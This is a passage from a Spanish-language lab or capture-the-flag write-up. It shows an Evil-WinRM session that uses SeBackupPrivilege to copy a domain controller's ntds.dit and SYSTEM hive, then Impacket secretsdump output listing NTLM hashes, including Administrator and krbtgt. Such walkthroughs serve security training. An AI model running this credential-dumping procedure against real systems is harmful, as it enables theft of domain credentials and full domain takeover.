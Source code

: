 Ahora podemos hacer uso de la función "copy-filesebackupprivilege" para crear un backup de NTDS para sacar el contenido de NTDS nos hace falta SYSTEM.

```powershell
*Evil-WinRM* PS C:\tmp\> copy-filesebackupprivilege z:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite
*Evil-WinRM* PS C:\tmp\> reg save HKLM\SYSTEM C:\tmp\system
The operation completed successfully.
```

```powershell
*Evil-WinRM* PS C:\tmp\> dir
    Directory: C:\tmp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/1/2023   9:22 AM            127 diskshadow.txt
-a----         3/1/2023   9:30 AM       18874368 ntds.dit
-a----         3/1/2023   9:27 AM          12288 SeBackupPrivilegeCmdLets.dll
-a----         3/1/2023   9:27 AM          16384 SeBackupPrivilegeUtils.dll
-a----         3/1/2023   9:30 AM       17580032 system
-a----         3/1/2023   9:23 AM            633 tmp.cabs
```

Ahora nos tendremos que bajar los archivos "ntds.dit" y "system" como estamos en evil-winrm podemos usar la función download. La descarga de estos ficheros puede tardar...

Cuando tenemos los dos archivos podemos hacer uso de secretsdump para dumpear los datos.

```bash
❯ secretsdump.py LOCAL -system system -ntds ntds.dit                                                                                                                                         
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                                                                                                     
                                                                                                                                                                                             
[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393                                                                                                                                
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                
[*] Searching for pekList, be patient                                                                                                                                                        
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c                                                                                                                            
[*] Reading and decrypting hashes from ntds.dit                                                                                                                                              
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::                                                                                                       
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                               
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:2a2f8ac26db968c93a17fefdb36c38ee:::                                                                                                              
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::                                                                                                              
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::                                                                                                          
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212::: 
```
